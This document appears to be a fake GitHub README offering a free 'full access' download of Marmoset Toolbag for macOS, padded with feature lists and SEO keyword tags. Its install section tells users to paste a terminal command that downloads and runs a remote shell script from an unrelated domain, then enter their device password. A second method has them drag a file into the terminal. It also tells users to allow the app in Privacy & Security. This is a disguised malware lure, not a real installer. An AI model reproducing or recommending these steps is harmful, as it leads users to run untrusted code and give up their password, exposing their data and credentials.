 <p align="center">
  <img src="https://i.ibb.co/N2L57WMy/1684337998-icon.webp" alt="Marmoset Toolbag macOS Banner" />
</p>

<h1 align="center">Marmoset Toolbag for macOS</h1>

<p align="center">
  ⚙️ Real-time 3D rendering, material baking, and portfolio creation for professional artists and developers.  
  <br><br>
  ✅ Apple Silicon & Intel native  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/186" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20Marmoset%20Toolbag%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Marmoset Toolbag for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/PsvGzf89/1670168065-1.jpg" alt="Toolbag Rendering UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Marmoset Toolbag?

**Marmoset Toolbag** for macOS is a professional real-time rendering suite tailored for 3D artists, animators, and game asset creators. It provides high-quality image and video rendering, texture baking, lighting setups, and presentation tools — all in one intuitive interface.

Whether you're building portfolio renders or previewing models for games, Toolbag offers accurate physically based rendering (PBR), support for animation, ray tracing, and powerful baking features.

Optimized for **Apple Silicon (M1/M2/M3)** and runs seamlessly on modern macOS devices.

---

## ✅ Why Choose Toolbag?

- 🖼️ **Real-Time Physically Based Rendering (PBR)**  
- 🔥 **Advanced Lighting & Shadow Tools**  
- 🧪 **Material Preview with HDRI Support**  
- 🧱 **Texture Baking: Normal, AO, Cavity, Curvature**  
- 🎥 **Turntable Animations & Scene Exports**  
- 🧰 **Integrated Camera, Post FX & Ray Tracing**  
- ⚙️ **Support for FBX, OBJ, GLTF and more**  
- 🍎 **Optimized for macOS Retina Displays**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/21rWcNDg/1670168065-2.jpg" alt="Toolbag Texture Bake Preview" />
  <br><br>
  <img src="https://i.ibb.co/nMcWjy63/1670168066-3.jpg" alt="Portfolio Render Scene Screenshot" />
</p>

---

## 🚀 Key Features

- Real-time GPU renderer  
- Customizable materials and shaders  
- Multi-light & multi-camera setups  
- Ray traced shadows and reflections  
- Bake texture maps from high to low poly  
- Export animated GIFs or videos  
- Layered post-processing stack  
- Scene templates for faster workflows  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Marmoset Toolbag under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-3D+Rendering+Suite-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-RealTime+Render+Bake+Export-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Toolbag – Render Like a Pro

Thanks for using **Marmoset Toolbag for macOS**.  
Visualize. Bake. Present. All in real time.

---

## 🧭 Usage Context

Toolbag is designed for local rendering, baking, and 3D asset preview workflows.  
It does not rely on cloud services or external rendering engines.

Perfect for standalone development pipelines.  
Not affiliated with Apple or any game engine vendor.

---

## 🔍 Tags

```text
marmoset toolbag for mac download, real time 3d renderer macos toolbag, marmoset toolbag baking tool apple silicon, bake pbr textures mac toolbag utility, turntable render export mac toolbag app, toolbag ray traced rendering macos, high to low poly baking software mac, portfolio render creator marmoset mac, hdr lighting and post fx mac toolbag, toolbag mac fbx obj gltf import support, marmoset toolbag offline installer for mac, retina display optimized 3d renderer mac, real time pbr preview toolbag mac m1, macos 3d model viewer renderer toolbag, marmoset toolbag apple silicon 3d asset suite
